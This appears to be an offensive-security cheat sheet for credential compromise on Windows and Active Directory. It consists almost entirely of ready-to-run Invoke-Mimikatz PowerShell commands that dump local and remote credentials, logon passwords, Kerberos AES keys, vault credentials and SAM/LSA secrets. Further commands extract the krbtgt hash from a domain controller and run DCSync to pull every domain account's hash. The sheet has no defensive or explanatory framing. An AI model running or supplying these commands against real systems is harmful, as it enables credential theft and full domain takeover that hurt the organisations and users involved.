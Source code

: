 # Credential Compromise
> test

## Mimikatz

Dump credentials on a local machine.
```powershell
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'
```

Dump credentials on multiple remote machines.
```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2") 
```

logon password
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords" "exit"'
```

AES cred
```powershell
Invoke-Mimikatz-Command '"sekurlsa::ekeys"'
```

Credential Vault
```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```

Execute mimikatz on DC as DA to get krbtgt hash
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' 
```
Use the DCSync feature for getting hash
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /all"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
